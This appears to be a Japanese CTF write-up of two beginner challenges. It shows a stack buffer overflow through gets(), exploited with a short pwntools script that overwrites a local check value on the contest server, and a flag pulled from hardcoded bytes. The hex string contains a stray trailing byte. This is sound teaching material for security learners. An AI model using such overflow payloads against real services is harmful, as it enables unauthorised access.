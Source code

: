 # [Pwn: condition]
- 問題バイナリを実行すると、以下のような動きになる。

```
$ ./condition
Please tell me your name...test
Premission denied
```

- 多分正しい文字列を入力すれば、フラグがもらえるんだろうと予測しつつGDBで解析
```
$ gdb -q condition
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0000000000400771 <+0>:	push   rbp
   0x0000000000400772 <+1>:	mov    rbp,rsp
   0x0000000000400775 <+4>:	sub    rsp,0x30
   0x0000000000400779 <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000400780 <+15>:	mov    edi,0x4008d8
   0x0000000000400785 <+20>:	mov    eax,0x0
   0x000000000040078a <+25>:	call   0x400600 <printf@plt>
   0x000000000040078f <+30>:	lea    rax,[rbp-0x30]
   0x0000000000400793 <+34>:	mov    rdi,rax
   0x0000000000400796 <+37>:	mov    eax,0x0
   0x000000000040079b <+42>:	call   0x400620 <gets@plt>
   0x00000000004007a0 <+47>:	cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x00000000004007a7 <+54>:	jne    0x4007bf <main+78>
   0x00000000004007a9 <+56>:	mov    edi,0x4008f8
   0x00000000004007ae <+61>:	call   0x4005c0 <puts@plt>
   0x00000000004007b3 <+66>:	mov    edi,0x40091e
   0x00000000004007b8 <+71>:	call   0x4007d3 <read_file>
   0x00000000004007bd <+76>:	jmp    0x4007c9 <main+88>
   0x00000000004007bf <+78>:	mov    edi,0x400927
   0x00000000004007c4 <+83>:	call   0x4005c0 <puts@plt>
   0x00000000004007c9 <+88>:	mov    edi,0x0
   0x00000000004007ce <+93>:	call   0x400640 <exit@plt>
End of assembler dump.
```

- ディスアセンブル結果からわかること
    1. main+25でprintfを呼び出している。出力は"Please tell me your name..."
    2. main+42でgetsを呼び出している。標準入力をrbp-0x30のアドレスに読み込んでいる。getsは読み込む文字列の最大長を指定できないため、bofができる。
    3. main+47でrbp-0x4のアドレスに格納されている値と0xdeadbeefを比較している。
    4. rbp-0x4の値と0xdeadbeefが異なる場合、Permission deniedと表示して、プログラムを抜ける。rbp-0x4の値と0xdeadbeefが一致する場合、OK! You have permissionと表示して、flag.txtを読み込み、内容を出力する。

- exploitの方針
```
getsを呼び出しているところにbof脆弱性があるので、これを利用してrbp-0x4に0xdeadbeefを書き込む。
getsはrbp-0x30に文字列を読み込んでいるので、0x30 - 0x4 = 44文字分書き込むと、rbp-0x4に到達する。

目指すスタックの状態
---------------
rbp-0x30			0x4141414141
rbp-0x26			0x4141414141
   .				0x4141414141
   .				0x4141414141
   略
rbp-0x4			0xdeadbeef
---------------
```

- コード
```
from pwn import *

host = "pwn1.chall.beginners.seccon.jp"
port = 16268

p = remote(host, port)

payload = "A" * 44 + p64(0xdeadbeef)

print(p.recvuntil("Please tell me your name..."))
p.sendline(payload)

p.interactive()
```

----

# [Reversing Warmup SimpleAuth]

-問題バイナリの実行結果

```
$ ./simple_auth
Input Password: test
Umm...Auth failed...
```

- 上のPwnと似てる
- GDBで解析

```
$ gdb -q simple_auth
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0000000000400792 <+0>:		push   rbp
   0x0000000000400793 <+1>:		mov    rbp,rsp
   0x0000000000400796 <+4>:		sub    rsp,0x30
   0x000000000040079a <+8>:		mov    rax,QWORD PTR fs:0x28
   0x00000000004007a3 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004007a7 <+21>:	xor    eax,eax
   0x00000000004007a9 <+23>:	mov    edi,0x4008b4
   0x00000000004007ae <+28>:	mov    eax,0x0
   0x00000000004007b3 <+33>:	call   0x400550 <printf@plt>
   0x00000000004007b8 <+38>:	lea    rax,[rbp-0x30]
   0x00000000004007bc <+42>:	mov    rsi,rax
   0x00000000004007bf <+45>:	mov    edi,0x4008c5
   0x00000000004007c4 <+50>:	mov    eax,0x0
   0x00000000004007c9 <+55>:	call   0x400570 <__isoc99_scanf@plt>
   0x00000000004007ce <+60>:	lea    rax,[rbp-0x30]
   0x00000000004007d2 <+64>:	mov    rdi,rax
   0x00000000004007d5 <+67>:	call   0x400686 <auth>
長いので省略します。
```

1. main+33でprintf。Input Password: を出力。
2. main+55でpasswordの入力を受け取る。
3. 受け取ったパスワードを引数にしてauth関数を呼び出し。関数名的にこの関数で認証処理をしていると思われるので、この関数も解析する

```
gdb-peda$ pdisass auth
Dump of assembler code for function auth:
   0x0000000000400686 <+0>:		push   rbp
   0x0000000000400687 <+1>:		mov    rbp,rsp
   0x000000000040068a <+4>:		sub    rsp,0x50
   0x000000000040068e <+8>:		mov    QWORD PTR [rbp-0x48],rdi
   0x0000000000400692 <+12>:	mov    rax,QWORD PTR fs:0x28
   0x000000000040069b <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040069f <+25>:	xor    eax,eax
   0x00000000004006a1 <+27>:	mov    DWORD PTR [rbp-0x40],0x1
   0x00000000004006a8 <+34>:	mov    BYTE PTR [rbp-0x30],0x63
   0x00000000004006ac <+38>:	mov    BYTE PTR [rbp-0x2f],0x74
   0x00000000004006b0 <+42>:	mov    BYTE PTR [rbp-0x2e],0x66
   0x00000000004006b4 <+46>:	mov    BYTE PTR [rbp-0x2d],0x34
   0x00000000004006b8 <+50>:	mov    BYTE PTR [rbp-0x2c],0x62
   0x00000000004006bc <+54>:	mov    BYTE PTR [rbp-0x2b],0x7b
   0x00000000004006c0 <+58>:	mov    BYTE PTR [rbp-0x2a],0x72
   0x00000000004006c4 <+62>:	mov    BYTE PTR [rbp-0x29],0x65
   0x00000000004006c8 <+66>:	mov    BYTE PTR [rbp-0x28],0x76
   0x00000000004006cc <+70>:	mov    BYTE PTR [rbp-0x27],0x33
   0x00000000004006d0 <+74>:	mov    BYTE PTR [rbp-0x26],0x72
   0x00000000004006d4 <+78>:	mov    BYTE PTR [rbp-0x25],0x73
   0x00000000004006d8 <+82>:	mov    BYTE PTR [rbp-0x24],0x69
   0x00000000004006dc <+86>:	mov    BYTE PTR [rbp-0x23],0x6e
   0x00000000004006e0 <+90>:	mov    BYTE PTR [rbp-0x22],0x67
   0x00000000004006e4 <+94>:	mov    BYTE PTR [rbp-0x21],0x5f
   0x00000000004006e8 <+98>:	mov    BYTE PTR [rbp-0x20],0x70
   0x00000000004006ec <+102>:	mov    BYTE PTR [rbp-0x1f],0x34
   0x00000000004006f0 <+106>:	mov    BYTE PTR [rbp-0x1e],0x73
   0x00000000004006f4 <+110>:	mov    BYTE PTR [rbp-0x1d],0x73
   0x00000000004006f8 <+114>:	mov    BYTE PTR [rbp-0x1c],0x77
   0x00000000004006fc <+118>:	mov    BYTE PTR [rbp-0x1b],0x30
   0x0000000000400700 <+122>:	mov    BYTE PTR [rbp-0x1a],0x72
   0x0000000000400704 <+126>:	mov    BYTE PTR [rbp-0x19],0x64
   0x0000000000400708 <+130>:	mov    BYTE PTR [rbp-0x18],0x7d
   0x000000000040070c <+134>:	mov    rax,QWORD PTR [rbp-0x48]
   0x0000000000400710 <+138>:	mov    rdi,rax
   0x0000000000400713 <+141>:	call   0x400530 <strlen@plt>
長いので省略します。
```

- main+34からmain+130まで1文字ずつ変数に保存している。これがFlag。
- 省略したところは、入力文字列と上のFlagがあってるかどうか検証してる
- 文字を抜き出して繋げるとFlagになる

```
flag = "63746634627b726576337273696e675f70347373773072647d48"
print(flag.decode("hex"))
```

- Flag:ctf4b{rev3rsing_p4ssw0rd}

